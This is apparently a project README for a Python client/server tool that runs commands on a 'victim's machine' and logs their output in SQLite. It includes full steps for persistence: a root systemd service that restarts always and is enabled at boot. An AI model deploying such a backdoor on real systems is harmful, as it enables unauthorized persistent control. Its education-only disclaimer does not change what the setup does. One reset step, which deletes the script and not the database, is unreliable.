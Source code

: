 ## Requirements

To run this project, you will need the following:

Python 3.x installed on both the server and client machines.

SQLite3 (included with Python).

Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

 Windows: `python createDb.py` Linux/Mac: `python3 createDb.py`


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

`client_socket.connect(('192.168.169.117', 12345)) #Example`


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

`python3 create_db.py`

You can delete this and create it again to reset the database.

`rm createDb.py`


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

`sudo nano /etc/systemd/system/server.service`


## 3.2: Add the following content to the file
```
[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.
```

## 3.3: Reload the systemd daemon and start the service:
```
sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
```

## Step 4: Running the Client

Run the command `python3 client.py` on your terminal while you are on your projects directory 

-> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

`python3 view_db.py`

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 

Disclaimer!

This project is created for educational and research purposes only. The intention is to demonstrate and practice concepts related to cybersecurity and ethical hacking in a controlled environment. Unauthorized access to computer systems, networks, or any other form of hacking without explicit permission from the owner is illegal and unethical.

The author of this project does not endorse or condone any illegal activities or misuse of the information provided. Use this knowledge responsibly and only on systems you own or have explicit permission to test.

By using the tools and techniques described in this project, you agree to the following:

You will not use this project or any information within it for any illegal activities or unauthorized access to systems.

You understand the risks and legal implications associated with cybersecurity activities.

You will only perform testing on systems you own or have been granted explicit permission to test.

The author takes no responsibility for any damage caused by the misuse of this project.



